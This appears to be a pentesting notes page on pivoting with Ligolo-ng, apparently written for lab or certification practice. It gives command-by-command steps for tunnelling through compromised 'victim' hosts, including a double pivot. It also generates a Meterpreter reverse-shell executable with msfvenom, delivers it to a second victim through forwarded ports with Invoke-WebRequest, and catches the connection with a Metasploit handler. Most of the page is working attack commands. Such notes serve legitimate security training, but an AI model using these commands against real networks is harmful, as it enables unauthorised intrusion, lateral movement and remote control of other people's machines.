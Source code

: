 ```yaml
---
title: Ligolo-ng
parent: Pivot
layout: default
nav_order: 1
---
```


When using nmap with ligolo-ng should specify `--unprivileged` to avoid false positives.

1. Install if haven't.\
`sudo apt install ligolo-ng`

1. Download the proxy agent files here(download old one if new not working):\
`https://github.com/nicocha30/ligolo-ng/releases`

1. Add ligolo TUN interface:\
`sudo ip tuntap add user <Your Username> mode tun ligolo`

1. Enable the interface:\
`sudo ip link set ligolo up`

1. Start our proxy server in attacker machine:\
`ligolo-proxy -selfcert -laddr 0.0.0.0:21`

1. In our victim:\
`./agent -connect <Attack IP>:21 -ignore-cert`

1. Once it is connected, go back to attacker machine should see agent connected. Run the `session` command and select the victim machine.

2. Run the following (in the ligolo interface!). This will show you what network the victim can access to:\
`ifconfig`

1. Based on the results above, use the following command (in linux not ligolo interface!). In this example the victim internal network ipv4 is 192.168.56.128/24:\
`sudo ip route add 192.168.56.0/24 dev ligolo`

1.  In ligolo interface with the selected agent, run `start`

If <b>double pivot</b> is required (you have proxy on the first victim already, but need proxy on a second victim also through first victim)
1. Add a second ligolo TUN interface:\
`sudo ip tuntap add user <Your Username> mode tun ligolo2`

2. Enable the interface:\
`sudo ip link set ligolo2 up`

3. In your ligolo interface with the first victim selected, redirect the port 21 of first victim to our kali port 21:\
`listener_add --addr 0.0.0.0:21 --to 127.0.0.1:21 --tcp`

4. To confirm it has been added:\
`listener_list`

5. Now run the agent on the second victim (assuming it is windows):\
`./agent.exe -connect <IP of First Pivot Point>:21 -ignore-cert`

6. Run the following for second victim (in the ligolo interface!). This will show you what network the second victim can access to:\
`ifconfig`

7. Based on the results above, use the following command (in linux not ligolo interface!). In this example the second victim internal network ipv4 is 10.1.30.132/24:\
`sudo ip add route 10.1.30.0/24 dev ligolo2`

8. In ligolo interface with the selected agent, run\
`tunnel_start --tun ligolo2`

Setting up <b>reverse shell</b> if the second victim cannot reach attacker machine directly
1. Generate a reverse shell (but the IP must be for the <b>first victim!</b>):\
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.128 LPORT=5656 EXITFUNC=thread -f exe -o shell.exe`

2. To ensure you can download files on second victim from Kali, run this under ligolo interface for first victim. This forwards port 2222 of first victim to kali port 8888:\
`listener_add --addr 0.0.0.0:2222 --to 127.0.0.1:8888 --tcp`

3. Then we can set up python download server on 8888:\
`python3 -m http.server 8888`

4. Download the file on second victim (IP here is the first victim):\
`Invoke-WebRequest -Uri "http://192.168.56.128:2222/shell.exe" -OutFile shell.exe`

5. On the ligolo interface for first victim run the following which will forward port 5656 on first victim to port 4444 on kali:\
`listener_add --addr 0.0.0.0:5656 --to 127.0.0.1:4444 --tcp`

6. Wait for incoming connecting after running this:
```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
exploit
```

If you want to access <b>internal services available only to that localhost of first victim</b>, run the following on kali interface:\
`sudo ip route add 240.0.0.1/32 dev ligolo`

You can then use 240.0.0.1 as if you are accessing 127.0.0.1 on the first victim. For example this will be like running nmap 127.0.0.1 on first victim:\
`nmap 240.0.0.1`